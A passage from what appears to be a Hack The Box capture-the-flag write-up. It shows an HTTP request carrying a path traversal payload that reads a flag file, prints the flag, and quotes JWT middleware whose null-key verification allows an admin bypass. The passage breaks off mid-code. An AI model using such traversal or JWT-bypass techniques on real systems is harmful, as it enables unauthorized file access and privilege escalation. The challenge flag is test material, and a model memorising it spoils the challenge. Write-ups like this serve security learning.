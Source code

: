 Dockerfile

We see the flag.txt has been copied to the file ```/signal_sleuth_firmware```

```docker
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Request to get the flag:
```
POST /api/export HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=UTF-8
Content-Length: 38
Origin: XXX
Connection: close
Referer: XXX
Cookie: XXX
{
"name":"../signal_sleuth_firmware"
}
```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}

## Web - Didactic Octo Paddles

AdminMiddleware.js business logic JWT tokens with another algo then H256 are being processed without token:
```javascript
const jwt = require("jsonwebtoken");
const { tokenKey } = require("../utils/authorization");
const db = require("../utils/database");

const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
```